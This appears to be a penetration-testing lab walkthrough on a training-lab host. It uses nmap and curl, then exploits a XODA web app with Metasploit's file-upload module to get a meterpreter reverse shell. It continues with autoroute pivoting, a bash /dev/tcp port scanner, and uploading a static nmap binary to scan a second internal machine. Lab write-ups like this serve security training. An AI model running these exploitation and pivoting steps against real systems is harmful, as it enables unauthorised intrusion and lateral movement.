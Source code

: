 # Network Service Scanning
Check if the target machine is reachable:
```
ping -c 4 demo1.ine.local
```
![image](https://github.com/user-attachments/assets/ff8f8865-6d62-485e-b22a-0ad98c4fec77)


We can now perform a default Nmap port scan on the target to identify the open ports on the target system, this can be done by running the following command:
```
nmap demo1.ine.local
```
![image](https://github.com/user-attachments/assets/9e9581f6-533a-48c7-91af-9d62bd3c071c)


Check the HTTP content hosted on port 80 of the target machine
```
curl demo1.ine.local
```
As mentioned in the challenge, a XODA web app instance is running on the system which can be exploited using the “exploit/unix/webapp/xoda_file_upload” Metasploit module.

![image](https://github.com/user-attachments/assets/ebc12817-c13b-4510-a89a-6d561be52e26)

Start msfconsole and select the mentioned module and set the parameter values
```
use exploit/unix/webapp/xoda_file_upload
set RHOSTS demo1.ine.local
set TARGETURI /
set LHOST 192.63.4.2
exploit
```
![image](https://github.com/user-attachments/assets/c98b97a8-7819-432d-b251-d76e5a1828c5)

A meterpreter session is spawned on the target machine.

Start a command shell and identify the IP address range of the second target machine.

```
shell
ip addr
```

![image](https://github.com/user-attachments/assets/d4a61b2d-08ef-4b52-a7c7-02227fc0ae8e)

The IP address of the first target machine on its eth1 interface is 192.180.108.2, the second target machine will be located at 192.180.108.3 on the second network.

Add the route to Metasploit's routing table
```
run autoroute -s 192.180.108.2
```
![image](https://github.com/user-attachments/assets/51bd26de-f399-427e-ad49-b8f1a158014f)

Background the current meterpreter session and use the portscan tcp module of Metasploit to scan the second target machine.

Press CTRL+z and Enter y to background the meterpreter session.
```
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.180.108.3
set verbose false
set ports 1-1000
exploit
```
![image](https://github.com/user-attachments/assets/26755772-8fec-4111-9938-48a63aea697c)

Check the static binaries available in the "/usr/bin/" directory.
```
ls -al /root/static-binaries/nmap
file /root/static-binaries/nmap
```
![image](https://github.com/user-attachments/assets/903cc066-017d-417d-aaa6-3f5859c61500)


Background the Metasploit session and create a bash port scanning script.

Press CTRL+z to background the Metasploit session.

Using the script provided at [https://catonmat.net/tcp-port-scanner-in-bash] as a reference, create a bash script to scan the first 1000 ports
```
#!/bin/bash
for port in {1..1000}; do
 timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done
```
Save the script as bash-port-scanner.sh
![image](https://github.com/user-attachments/assets/613d7a47-01a4-4008-b987-6dd7c133a159)

Foreground the Metasploit session and switch to the meterpreter session.

Press "fg" and press enter to foreground the Metasploit session.
```
sessions -i 1
```
![image](https://github.com/user-attachments/assets/f2cc2c6a-cb08-4c87-aa5e-d345b86a8b34)

Upload the nmap static binary and the bash port scanner script to the target machine.
```
upload /root/static-binaries/nmap /tmp/nmap
upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
```
![image](https://github.com/user-attachments/assets/dc38b651-ac15-4698-add6-bdddb71fe0f0)

Make the binary and script executable and use the bash script to scan the second target machine.
```
shell
cd /tmp/
chmod +x ./nmap ./bash-port-scanner.sh
./bash-port-scanner.sh 192.180.108.3
```
![image](https://github.com/user-attachments/assets/a1a8a2f6-3ae0-4d07-b5c2-93d1e19a766f)

Three ports are open on the target machine, ports 21, 22 and 80.

Using the nmap binary, scan the target machine for open ports.
```
./nmap -p- 192.180.108.3
```
![image](https://github.com/user-attachments/assets/981f8fca-bcd4-4936-8d0a-8e6522266ba6)

The services running on the target machine are FTP, SSH and HTTP.




